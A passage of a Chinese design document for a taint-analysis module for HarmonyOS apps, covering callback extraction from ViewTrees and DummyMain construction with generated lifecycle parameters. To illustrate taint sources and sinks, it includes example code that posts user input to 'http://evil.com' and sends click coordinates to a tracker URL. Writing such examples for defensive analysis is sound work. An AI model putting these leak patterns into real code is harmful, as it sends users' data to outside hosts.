        moduleName: parsed.module.name,
        mainElement: parsed.module.mainElement,  // ← 提取入口
        abilities: parsed.module.abilities || []
    };
}
```

**使用示例**：

```typescript
const collector = new AbilityCollector(scene);

// 自动在构造函数中加载配置
// 输出: [AbilityCollector] Found entry ability: EntryAbility in .../module.json5
// 输出: [AbilityCollector] Loaded 2 module configs, 1 entry abilities

const abilities = collector.collectAllAbilities();

for (const ability of abilities) {
    if (ability.isEntry) {
        console.log(`入口 Ability: ${ability.name}`);
        // 输出: 入口 Ability: EntryAbility
    }
}

// 也可以直接获取入口名称列表
const entryNames = collector.getEntryAbilityNames();
// Set { 'EntryAbility' }
```

---

### 4.4 ViewTreeCallbackExtractor.ts — 回调提取器

**角色**：UI 回调的"侦探"，从 ViewTree 中找出所有事件绑定。

**类比**：就像检查员检查每个按钮上贴了什么标签。

#### 与原方法的对比

```
原版 DummyMainCreater.getCallbackMethods():
┌─────────────────────────────────────┐
│ 遍历所有语句                         │
│ 找到 onClick(...) 调用              │
│ 提取参数中的方法                     │
│                                     │
│ 结果: [method1, method2, method3]   │
│       （不知道属于哪个控件）          │
└─────────────────────────────────────┘

本模块 ViewTreeCallbackExtractor:
┌─────────────────────────────────────┐
│ 遍历 ViewTree 节点                   │
│ 检查每个节点的 attributes            │
│ 找到 onClick, onTouch 等事件        │
│ 记录控件类型和回调方法               │
│                                     │
│ 结果:                               │
│ [                                   │
│   { type: 'Button',                 │
│     event: 'onClick',               │
│     method: handler1 },             │
│   { type: 'Text',                   │
│     event: 'onAppear',              │
│     method: handler2 }              │
│ ]                                   │
└─────────────────────────────────────┘
```

#### 核心方法

```typescript
class ViewTreeCallbackExtractor {
    /**
     * 从 Component 提取所有 UI 回调
     */
    extractFromComponent(componentClass: ArkClass): UICallbackInfo[] {
        // 1. 获取 ViewTree
        const viewTree = componentClass.getViewTree();
        
        // 2. 获取根节点
        const root = viewTree.getRoot();
        
        // 3. 递归遍历
        this.walkViewTree(root, callbacks);
        
        return callbacks;
    }
    
    /**
     * 遍历 ViewTree
     * 
     * ViewTree 结构示例:
     * 
     *   Column (root)
     *     ├── Text
     *     │     └── attributes: { text: 'Hello' }
     *     └── Button
     *           └── attributes: { onClick: [handler] }  ← 我们要找的！
     */
    private walkViewTree(node, callbacks) {
        // 提取当前节点的回调
        for (const [name, value] of node.attributes) {
            if (isEventAttribute(name)) {  // onClick, onTouch...
                const method = resolveCallbackMethod(value);
                callbacks.push({
                    componentType: node.name,  // "Button"
                    eventType: name,           // "onClick"
                    callbackMethod: method
                });
            }
        }
        
        // 递归处理子节点
        for (const child of node.children) {
            this.walkViewTree(child, callbacks);
        }
    }
}
```

---

#### 4.5.1 resolveCallbackMethod() — 回调方法解析（详解）

**功能**：从 ViewTree 节点的属性值中解析出实际的回调方法（ArkMethod）。

**为什么这个方法重要？**



**具体例子**：假设开发者写了 `Button().onClick(this.handleClick)`

| 阶段 | 数据形态 |
|------|---------|
| 源代码 | `this.handleClick` |
| ViewTree | `Map { 'onClick' => [Stmt, [MethodSignature('handleClick')]] }` |
| 解析后 | `ArkMethod { name: 'handleClick', declaringClass: 'MyComponent' }` |
| DummyMain | `invoke component.handleClick()` |

**开发者写回调的多种方式**：

```typescript
// 方式 1: 方法引用（最常见）
@Component
struct MyComponent {
    handleClick() {
        console.log('clicked');
    }
    
    build() {
        Button('Click')
            .onClick(this.handleClick)  // ← 需要解析
    }
}

// 方式 2: 箭头函数 Lambda
Button('Click')
    .onClick(() => {                    // ← 需要解析
        this.count++;
    })

// 方式 3: 内联函数
Button('Click')
    .onClick(function() {               // ← 需要解析
        doSomething();
    })
```

**解析流程图**：



**三种情况的具体例子**：

| 写法 | Value 类型 | 解析方式 | 示例 |
|------|-----------|---------|------|
| `.onClick(this.handleClick)` | MethodSignature | 直接查找方法签名 | `MethodSignature('MyComponent.handleClick')` → `ArkMethod` |
| `.onClick(this.handler)` | ArkInstanceFieldRef | 字段名当方法名 | `FieldRef('handler')` → 查找 `handleClick()` 方法 |
| `.onClick('handleClick')` | Constant | 字符串当方法名 | `Constant('handleClick')` → 查找同名方法 |

**ArkAnalyzer 如何表示回调？**

ViewTree 节点的 `attributes` 是一个 `Map<string, [Stmt, Value[]]>` 结构：



**具体数据示例**：

```typescript
// 源代码: Button().onClick(this.handleClick)

// ViewTree 中的表示:
node.attributes = Map {
    'onClick' => [
        ArkInvokeStmt,              // 关联语句
        [
            MethodSignature {       // ← 这是我们要解析的！
                className: 'MyComponent',
                methodName: 'handleClick'
            }
        ]
    ]
}
```

**核心解析代码示例**：

```typescript
private resolveCallbackMethod(
    attributeValue: [Stmt, Value[]],
    componentClass: ArkClass
): ArkMethod | null {
    const [stmt, values] = attributeValue;
    
    for (const value of values) {
        // 情况 1: 方法签名
        if (value instanceof MethodSignature) {
            // 优先从 Scene 全局查找
            let method = this.scene.getMethod(value);
            if (method) return method;
            
            // 其次从当前类查找
            method = componentClass.getMethod(value);
            if (method) return method;
            
            // 最后按名称查找
            const name = value.getMethodSubSignature().getMethodName();
            method = componentClass.getMethodWithName(name);
            if (method) return method;
        }
        
        // 情况 2: 字段引用 (this.xxx)
        if (value instanceof ArkInstanceFieldRef) {
            const fieldName = value.getFieldName();
            // 将字段名作为方法名查找
            const method = componentClass.getMethodWithName(fieldName);
            if (method) return method;
        }
        
        // 情况 3: 字符串常量
        if (value instanceof Constant && typeof value.getValue() === 'string') {
            const method = componentClass.getMethodWithName(value.getValue());
            if (method) return method;
        }
    }
    
    return null;
}
```

**Lambda 表达式的处理**：



| 方式 | 解析难度 | 当前支持 | 说明 |
|------|:--------:|:--------:|------|
| 方式 1 | ⭐⭐ | ✅ 支持 | 通过方法名模式 `lambda$xxx$N` 匹配 |
| 方式 2 | ⭐⭐⭐⭐⭐ | ⏳ 部分 | 需分析 Stmt 结构，较复杂 |

#### ViewTree 遍历示意

```
源代码:
build() {
    Column() {
        Text('Title')
        Button('Submit')
            .onClick(() => { submit(); })
        Row() {
            Image('icon.png')
                .onAppear(() => { load(); })
        }
    }
}

ViewTree 结构:                    提取结果:
     Column                       
       │                          ┌──────────────────────────────┐
       ├── Text                   │ 1. Button.onClick → submit   │
       │                          │ 2. Image.onAppear → load     │
       ├── Button ←── onClick     └──────────────────────────────┘
       │
       └── Row
             │
             └── Image ←── onAppear
```

---

### 4.5 LifecycleModelCreator.ts — 核心构建器

**角色**：总指挥，协调所有部件，生成最终的 DummyMain。

**类比**：就像建筑工地的项目经理，调度各个工种完成整栋大楼。

#### 构建流程



#### 核心方法详解

```typescript
class LifecycleModelCreator {
    /**
     * 主入口方法
     * 
     * 执行完整的构建流程
     */
    create(): void {
        // Step 1: 收集所有 Ability 和 Component
        this.collectAbilitiesAndComponents();
        
        // Step 2: 从 ViewTree 提取 UI 回调
        this.extractUICallbacks();
        
        // Step 3: 创建 DummyMain 的"外壳"
        this.createDummyMainContainer();
        
        // Step 4: 构建控制流图
        this.buildDummyMainCfg();
        
        // Step 5: 注册到 Scene
        this.scene.addToMethodsMap(this.dummyMain);
    }
    
    /**
     * 构建 CFG
     * 
     * CFG (Control Flow Graph) 控制流图
     * 表示程序的执行路径
     */
    private buildDummyMainCfg(): void {
        // 创建入口块
        const entryBlock = new BasicBlock();
        
        // 添加静态初始化
        this.addStaticInitialization(cfg, entryBlock);
        
        // 创建 while(true) 循环
        const { whileBlock, countLocal } = this.createMainLoopStructure();
        
        // 为每个 Ability 创建分支
        for (const ability of this.abilities) {
            this.addAbilityLifecycleBranch(ability, ...);
        }
        
        // 为每个 Component 创建分支
        for (const component of this.components) {
            this.addComponentLifecycleBranch(component, ...);
        }
    }
    
    /**
     * 添加 Ability 生命周期分支
     * 
     * 生成的代码结构:
     * if (count == N) {
     *     ability = new AbilityClass();
     *     ability.onCreate(want);
     *     ability.onWindowStageCreate(windowStage);
     *     ability.onForeground();
     *     // ...
     * }
     */
    private addAbilityLifecycleBranch(ability: AbilityInfo, ...): BasicBlock[] {
        // 创建条件块: if (count == N)
        const ifBlock = createIfBlock(count == branchIndex);
        
        // 创建调用块
        const invokeBlock = new BasicBlock();
        
        // 实例化 Ability
        const local = new Local('ability', AbilityType);
        addStmt(invokeBlock, `${local} = new ${ability.name}()`);
        
        // 按顺序调用生命周期方法
        for (const stage of [CREATE, WINDOW_STAGE_CREATE, FOREGROUND, ...]) {
            const method = ability.lifecycleMethods.get(stage);
            if (method) {
                addStmt(invokeBlock, `${local}.${method.getName()}()`);
            }
        }
        
        return [ifBlock, invokeBlock];
    }
}
```

---

#### 4.6.1 addMethodInvocation() — 方法调用与参数生成（详解）

**功能**：生成生命周期方法的调用语句，并自动为方法参数创建对应的对象。

**为什么需要参数生成？**



**具体例子：污点分析场景**

```typescript
// 开发者代码
class EntryAbility extends UIAbility {
    onCreate(want: Want, launchParam: LaunchParam) {
        // want.parameters 可能包含外部传入的恶意数据
        let userInput = want.parameters['userInput'];  // ← 污点源
        
        // 如果直接发送，可能造成数据泄露
        http.post('http://evil.com', userInput);       // ← 污点汇
    }
}
```

| 场景 | DummyMain 生成 | 污点分析结果 |
|------|---------------|-------------|
| 无参数 | `ability.onCreate()` | ❌ 无法识别 `want` 的来源 |
| 有参数 | `%p = new Want(); ability.onCreate(%p)` | ✅ 追踪: `%p` → `want` → `userInput` → `http.post` |

**需要生成参数的生命周期方法**：

| 方法 | 参数 | 重要性 |
|------|------|:------:|
| `onCreate(want, launchParam)` | Want, LaunchParam | ⭐⭐⭐⭐⭐ |
| `onWindowStageCreate(windowStage)` | WindowStage | ⭐⭐⭐⭐ |
| `onForeground()` | 无 | - |
| `onBackground()` | 无 | - |
| `onDestroy()` | 无 | - |

**实现流程图**：



**完整例子：onCreate 方法的参数生成**

```
输入：
  - method: onCreate(want: Want, launchParam: LaunchParam)
  - instanceLocal: %ability0

生成过程：
  ┌─────────────────────────────────────────────────────┐
  │ Step 1: 解析参数                                     │
  │   param[0]: want → Want                              │
  │   param[1]: launchParam → LaunchParam                │
  ├─────────────────────────────────────────────────────┤
  │ Step 2: 创建 Local 和 new 语句                       │
  │   %param0 = new Want()                               │
  │   %param1 = new LaunchParam()                        │
  ├─────────────────────────────────────────────────────┤
  │ Step 3: 生成调用                                     │
  │   invoke %ability0.onCreate(%param0, %param1)        │
  └─────────────────────────────────────────────────────┘
```

**生成的 IR 示例**：

```
源代码中的生命周期方法：
─────────────────────────────────────────────────────────────────
class EntryAbility extends UIAbility {
    onCreate(want: Want, launchParam: LaunchParam) { ... }
    onWindowStageCreate(windowStage: WindowStage) { ... }
    onForeground() { ... }
}

生成的 DummyMain IR（中间表示）：
─────────────────────────────────────────────────────────────────
// 实例化 Ability
%ability0 = new EntryAbility()
invoke %ability0.<init>()

// onCreate 调用（含参数）
%param0 = new Want()           // ← 参数对象创建
%param1 = new LaunchParam()    // ← 参数对象创建
invoke %ability0.onCreate(%param0, %param1)

// onWindowStageCreate 调用（含参数）
%param2 = new WindowStage()    // ← 参数对象创建
invoke %ability0.onWindowStageCreate(%param2)

// onForeground 调用（无参数）
invoke %ability0.onForeground()
```

**参数类型获取的特殊处理**：



**类型继承示例**：

| 用户代码 | 参数 | 本地类型 | 父类类型 | 最终使用 |
|---------|------|---------|---------|---------|
| `onCreate(want, param)` | want | `undefined` | `Want` | `Want` ✅ |
| `onCreate(want, param)` | param | `undefined` | `LaunchParam` | `LaunchParam` ✅ |
| `onForeground()` | - | - | - | 无参数 |

**核心代码实现**：

```typescript
private addMethodInvocation(
    block: BasicBlock,
    instanceLocal: Local,
    method: ArkMethod
): void {
    // Step 1: 为方法参数创建 Local 变量并初始化
    const paramLocals = this.createParameterLocals(method, block);
    
    // Step 2: 生成方法调用语句
    const invokeExpr = new ArkInstanceInvokeExpr(
        instanceLocal,
        method.getSignature(),
        paramLocals  // ← 传入参数！
    );
    block.addStmt(new ArkInvokeStmt(invokeExpr));
}
```

---

#### 4.6.2 addUICallbackInvocation() — UI 回调参数生成（详解）

**功能**：为 UI 事件回调（如 onClick、onTouch）生成调用语句，并自动创建事件参数对象。

**为什么需要回调参数生成？**



**具体例子：位置信息泄露检测**

```typescript
// 开发者代码 - 潜在的位置信息泄露
Button('获取位置').onClick((event: ClickEvent) => {
    let x = event.screenX;  // ← 屏幕 X 坐标
    let y = event.screenY;  // ← 屏幕 Y 坐标
    
    // 发送到服务器（可能是恶意的！）
    fetch('http://tracker.com/log?x=' + x + '&y=' + y);
});
```

| 分析场景 | DummyMain | 污点追踪 |
|---------|-----------|---------|
| 无参数 | `handleClick()` | ❌ `event` 不存在，无法追踪 |
| 有参数 | `handleClick(%event)` | ✅ `%event` → `screenX` → `fetch` |

**常见 UI 事件及其参数类型**：

| 事件类型 | 方法名 | 参数类型 | 说明 |
|----------|--------|----------|------|
| 点击事件 | `onClick` | `ClickEvent` | 包含坐标、时间戳等 |
| 触摸事件 | `onTouch` | `TouchEvent` | 包含触摸点信息 |
| 出现事件 | `onAppear` | 无 | 组件出现时触发 |
| 消失事件 | `onDisAppear` | 无 | 组件消失时触发 |
| 值变化 | `onChange` | `string/number` | 输入值变化 |
| 焦点事件 | `onFocus/onBlur` | `FocusEvent` | 焦点变化 |

**实现流程图**：

